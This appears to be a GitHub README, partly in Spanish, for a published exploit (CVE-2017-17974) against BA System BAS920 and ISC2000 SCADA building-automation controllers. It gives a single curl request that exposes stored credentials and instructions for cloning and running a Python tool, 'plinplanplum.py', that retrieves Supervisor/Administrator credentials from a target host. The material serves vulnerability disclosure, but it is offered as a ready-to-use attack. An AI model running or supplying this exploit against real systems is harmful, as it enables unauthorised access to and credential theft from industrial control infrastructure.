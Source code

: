 #  Exploit; SCADAS "BAS920 & ISC2000"; Credentials Exposed
## [BA System] “Improper Access Control (Authorization)”

	[*] Exploit Title:       "SCADAS "BAS920 & ISC2000"; Credentials Exposed” 
	[*] CVE:                 CVE-2017-17974
	[*] Date:                29/12/2017
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              BA System
	[*] devices(tested):     BAS920 & ISC2000

Atacando SCADAS de la firma “BA SYSTEM”: 

![BAS920](screenshot/baIexplorer.png)

Accedemos a la plataforma y como era de esperar nos recibe un "login form"

![BAS920_2](screenshot/get_passwd.png)

### Exploit:

```
	curl http://<host>/isc/get_sid_js.aspx
```

### POCs:
![BAS920_3](screenshot/POC_1.png)

![BAS920_4](screenshot/POC_2.png)

### Adentro:
![BAS920_5](screenshot/INDOOR.png)

![BAS920_6](screenshot/INDOOR_2.png)


***

# TOOL: "Plin Plan Plun"  (ex - cafeina )

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/baCK_system.git
	usr@pwn:~$ cd baCK_system

## help
	
	usr@pwn:~/$ python plinplanplum.py --help

	python plinplanplum.py --help
	usage: plinplanplum.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining all credentials for the Supervisor/Administrator account

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python plinplanplum.py --host 192.168.1.101 -p 81

***

## Usage:

![BAS920_7](screenshot/tool_passwd.png)

#### Las update !!!
![BAS920_8](screenshot/poc_tool_1.png)

***

### Referer:
http://misteralfa-hack.blogspot.cl/2018/04/tool-plinplamplum-scadas-bas920-isc2000.html
http://misteralfa-hack.blogspot.cl/2017/12/ba-system-improper-access-control.html